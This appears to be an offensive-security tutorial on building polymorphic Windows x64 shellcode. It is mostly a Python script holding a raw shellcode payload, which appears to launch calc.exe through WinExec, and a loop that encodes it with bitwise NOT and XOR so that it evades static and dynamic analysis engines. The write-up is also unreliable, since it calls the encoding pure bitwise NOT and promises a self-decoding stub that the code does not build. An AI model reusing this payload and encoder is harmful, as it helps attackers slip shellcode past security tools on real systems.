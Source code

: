 Polymorphic prep part 2 - The 1st Encoder - Bitwise NOT
-

Now that we have our shellcode, we need to encode it to add more layers of polymorphism to our code!  I'm a huge fan of Bitwise NOT and I feel like it doesn't get the attention it deserves.  It's quite easy to work with, and can easily be incorporated into your encoding arsenal. 😸  Here's how it works.  We will place our newly generated shellcode in the `shellcode` variable.  Next, we simply run the script I went ahead and put together for you below.  It will generate shellcode encoded with the `Bitwise NOT` operation.  The script will also inform us as to the location of our `key` that we used when encoding the shellcode.  This key will be in the encoded shellcode itself! 🤯  This affords us not only great evasion for general static and dynamic analysis engines, but also introduces yet more polymorphism into our code, as this location will always change depending on the encoding key value you choose to use.  This is essentially a self-decoding shellcode stub.  These self-decrypting/self-decoding shellcode stubs are commonly seen in buffer overflow exploits.  I chose `0xAC` for our encoding key by the way for this particular example.   

```python
import sys

shellcode = b"\x4d\x87\xe6\x48\x83\xec\x28\x48\x8d\x3f\x48\x83\xe4\xf0\x4d\x87\xf4\x48\x31\xc9\x49\x87\xfc\x65\x48\x8b\x04\x25\x30\x00\x00\x00\x48\x8b\x40\x60\x48\x31\xff\x48\x8b\x40\x18\x49\x87\xfe\x48\x8b\x70\x10\x48\x83\xc7\x00\x48\x8b\x36\x4c\x87\xef\x48\x8b\x4e\x60\x4c\x87\xef\x48\x8b\x19\x4d\x87\xec\x48\xba\x4b\x00\x45\x00\x52\x00\x4e\x00\x48\x31\xff\x48\x39\xd3\x74\x08\x49\x87\xfc\x75\xd6\x4c\x87\xe7\x48\x8b\x5e\x30\x4d\x89\xf6\x49\x89\xd8\x4d\x87\xe5\x8b\x5b\x3c\x4d\x6b\xe4\x01\x4c\x01\xc3\x4d\x89\xe4\x48\x31\xc9\x49\xc1\xe5\x00\x66\x81\xc1\xff\x88\x4d\x87\xee\x48\xc1\xe9\x08\x49\xc1\xcc\x00\x8b\x14\x0b\x4c\x87\xe7\x4c\x01\xc2\x4d\x89\xed\x44\x8b\x52\x14\x4d\x31\xed\x4d\x31\xdb\x49\x83\xec\x00\x44\x8b\x5a\x20\x49\x83\xfe\x00\x4d\x01\xc3\x4d\x87\xee\x4c\x89\xd1\x4c\x87\xef\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xc1\xcf\x00\x48\xf7\xd0\x49\x87\xfd\x48\xc1\xe0\x08\x4d\x89\xed\x48\xc1\xe8\x08\x4d\x87\xe6\x50\x4d\x85\xf6\x48\x89\xe0\x49\x87\xfe\x48\x83\xc4\x08\x4d\x89\xe4\x67\xe3\x30\x49\x87\xfe\x31\xdb\x49\x87\xfc\x41\x8b\x1c\x8b\x48\xc1\xe7\x00\x4c\x01\xc3\x4d\x87\xe6\x48\xff\xc9\x49\x87\xfc\x4c\x8b\x08\x4d\x87\xf4\x4c\x39\x0b\x74\x0d\x4d\x87\xee\x75\xd1\x49\xc1\xe6\x00\xcc\x49\x87\xfc\xff\xc1\x4d\x85\xe4\x4d\x31\xdb\x4d\x87\xf4\x44\x8b\x5a\x1c\x4c\x87\xf7\x4d\x01\xc3\x4d\x87\xec\x45\x8b\x3c\x8b\x49\x87\xfe\x4d\x01\xc7\x4d\x31\xf6\x48\x31\xc0\x49\x83\xc5\x00\x50\x49\x87\xfd\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x49\x83\xfc\x00\x48\xf7\xd0\x4d\x87\xee\x50\x49\x87\xfe\x48\x89\xe1\x4d\x85\xe4\x48\x31\xd2\x4d\x87\xee\x48\xff\xc2\x49\x87\xfe\x48\x83\xec\x30\x49\x87\xfc\x41\xff\xd7\x4d\x87\xf4"

xor_key = 0xAC  # Use a key that avoids bad characters

encoded_shellcode = bytearray()
i = 0
while i < len(shellcode):
    chunk = shellcode[i:i+8]
    value = int.from_bytes(chunk, 'little')
    not_value = (~value) & 0xFFFFFFFFFFFFFFFF
    not_chunk = not_value.to_bytes(8, 'little')
    for b in not_chunk:
        encoded_shellcode.append(b ^ xor_key)
    i += 8

print(f"Encoded Shellcode: {','.join([f'0x{b:02x}' for b in encoded_shellcode])}")

positions = [i for i, byte in enumerate(encoded_shellcode) if byte == xor_key]

if positions:
    print(f"Found 0xAC at position(s): {positions}")
else:
    print("0xAC not found in the shellcode")
```
